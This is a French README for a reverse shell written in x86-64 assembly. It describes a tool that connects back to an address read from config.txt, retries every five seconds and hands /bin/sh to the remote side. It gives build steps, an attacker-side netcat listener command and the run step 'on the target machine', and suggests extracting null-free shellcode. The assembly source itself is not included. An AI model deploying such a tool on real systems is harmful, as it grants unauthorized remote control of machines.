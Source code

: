 
# 🐚 Reverse Shell en assembleur x86_64

Ce projet implémente un reverse shell en assembleur x86-64. Il établit une connexion sortante vers une machine distante et ouvre un shell interactif sur cette connexion. L’IP et le port sont lus dynamiquement depuis un fichier `config.txt`.

## Fonctionnalités

- Connexion TCP sortante vers une IP et un port définis dans un fichier.
- Lecture automatique de l’IP et du port depuis `config.txt` (format `127.0.0.1:4444`).
- Construction de la structure `sockaddr_in` à partir des données lues.
- Tentatives de reconnexion toutes les 5 secondes si la machine distante n’est pas en écoute.
- Redirection des entrées/sorties vers le socket (stdin, stdout, stderr).
- Affichage d’un petit message d’accueil en couleur à la connexion.
- Exécution du shell `/bin/sh`.

## Compilation et exécution

### 1. Contenu du fichier `config.txt`

```
127.0.0.1:4444
```

### 2. Compilation du code

```bash
nasm -f elf64 reverse_shell.asm -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```

### 3. Lancement du listener sur l’attaquant

```bash
nc -lvnp 4444
```

### 4. Exécution sur la machine cible

```bash
./reverse_shell
```

## Pour aller plus loin

- Extraction du shellcode brut sans `\x00` depuis le binaire.
- Optimisation de la taille du shellcode.

